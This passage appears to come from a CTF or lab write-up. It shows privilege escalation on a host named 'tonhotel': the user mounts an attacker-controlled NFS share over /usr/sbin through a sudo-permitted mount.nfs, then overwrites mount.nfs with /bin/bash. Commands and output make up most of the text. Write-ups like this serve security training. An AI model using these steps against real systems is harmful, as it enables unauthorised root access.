 ![Pasted image 20250702185446.png](../../IMAGES/Pasted%20image%2020250702185446.png)

Now, let's restart the service:

```
sudo exportfs -a

sudo systemctl restart nfs-kernel-server
```

We can now attempt to connect using sudo on the machine:

```
sudo /usr/sbin/mount.nfs -o port=443 10.14.21.28:/tmp/share /usr/sbin
```

If we check `/usr/sbin`, we can now realize it is writable:

```
jojo@tonhotel:/$ ls -la /usr/sbin
total 4
drwxrwxrwx  2 nobody nogroup   40 Jul  2 23:49 .
drwxr-xr-x 14 root   root    4096 Aug 31  2022 ..
```

![Pasted image 20250702190134.png](../../IMAGES/Pasted%20image%2020250702190134.png)

We can simply replace `/usr/sbin/mount.nfs` with `/bin/bash`:

```
cp /bin/bash /usr/sbin/mount.nfs

jojo@tonhotel:/$ ls -la /usr/sbin
total 1160
drwxrwxrwx  2 nobody nogroup      60 Jul  3 00:01 .
drwxr-xr-x 14 root   root       4096 Aug 31  2022 ..
-rwxr-xr-x  1 jojo   jojo    1183448 Jul  3 00:01 mount.nfs
```
